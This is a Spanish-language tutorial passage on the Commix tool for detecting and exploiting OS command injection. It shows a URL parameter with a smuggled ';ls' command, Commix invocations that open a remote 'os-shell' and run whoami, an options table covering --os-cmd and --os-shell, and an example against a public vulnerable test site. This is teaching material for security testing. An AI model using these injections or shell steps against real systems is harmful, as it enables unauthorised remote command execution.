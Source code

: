 ```
http://vulnerable.com/page.php?user=juan;ls
```

Commix puede detectar esto y automatizar el ataque.

---

### 🚀 Uso básico de Commix

```bash
python3 commix.py -u "http://vulnerable.com/page.php?user=juan"
```

Si hay vulnerabilidad, obtendrás una shell tipo:

```
commix(os-shell) >
```

Ejecuta comandos como:

```
whoami
ls -la
```

---

### ⚙️ Opciones útiles

| Opción        | Significado                                |
| ------------- | ------------------------------------------ |
| `--cookie`    | Pasar cookies si necesitas sesión          |
| `--data`      | Para inyección en formularios POST         |
| `--os-cmd`    | Ejecutar un comando directamente           |
| `--os-shell`  | Acceder a una shell remota                 |
| `--force-ssl` | Si el sitio está en HTTPS                  |
| `--auth-type` | Autenticación básica, NTLM, etc.           |
| `--technique` | Limitar tipo de inyección (`T`, `R`, etc.) |

---

#### 🧪 Ejemplo 1: Inyección en parámetro GET

```bash
python3 commix.py -u "http://testphp.vulnweb.com/artists.php?artist=1"
```

Este sitio es vulnerable a inyecciones.

---
